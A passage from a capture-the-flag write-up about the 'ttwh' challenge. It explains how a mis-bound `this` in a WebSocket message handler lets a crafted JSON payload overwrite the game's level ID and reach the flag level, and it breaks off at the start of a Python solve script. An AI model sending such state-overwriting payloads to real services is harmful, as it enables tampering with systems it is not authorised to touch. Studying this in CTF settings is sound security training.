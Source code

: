 ### Part 3: Crafting the Exploit

The goal is to reach Level 3, which contains the `FlagBlock`.

`backend/levels.ts`:
```typescript
export function createLevel3(): Block[][] {
    return [
        [
            new PassBlock(),
            new PassBlock(),
            new PassBlock(),
            new FlagBlock()
        ]
    ]
}
```
The exploit path is now clear:

1.  **Solve Level 0:** The first level is a simple puzzle that requires swapping two blocks to reach the `NextLevelBlock`. This is done as intended.
2.  **Enter Level 1:** Upon entering Level 1, a `MoveRelativeBlock` is present on the board. Its `attach` method is called, and its vulnerable `handleMessage` function starts listening for messages, with its `this` context set to the `Game` instance.
3.  **Send the Payload:** We send a carefully crafted WebSocket message to exploit the vulnerability:
    ```json
    {
        "type": "move_relative_set",
        "axis": "levelId",
        "value": 3
    }
    ```
4.  **Hijack the Game Logic:** The server receives this message. The `handleMessage` function in `MoveRelativeBlock` executes. It interprets `this` as the `Game` object and obediently performs the assignment: `game.levelId = 3`.
5.  **Trigger a Level Load:** The game's cursor continues moving down the first column of Level 1 until it hits a `ResetBlock`. This block's function is to call `game.loadLevel(game.levelId)`. Because we just overwrote `levelId`, this call becomes `game.loadLevel(3)`.
6.  **Capture the Flag:** The server loads Level 3. The game loop automatically executes the sequence of `PassBlock`s, landing the cursor on the `FlagBlock`. The server then executes this block, sending the flag back over the WebSocket connection.

### Part 4: The Final Script

The provided solve script executes this logic perfectly.

```python
#!/usr/bin/env python3
import websocket
import json
import threading
import time
import sys

class Exploit:
    """
    Exploits a 'this' context vulnerability in the ttwh CTF challenge.
    The `handleMessage` method in `MoveRelativeBlock` modifies the `Game` instance
    instead of the block instance, allowing us to overwrite `game.levelId` and
    other properties to skip to the flag level.
    """

    def __init__(self, target_url):
        self.ws = websocket.WebSocketApp(
```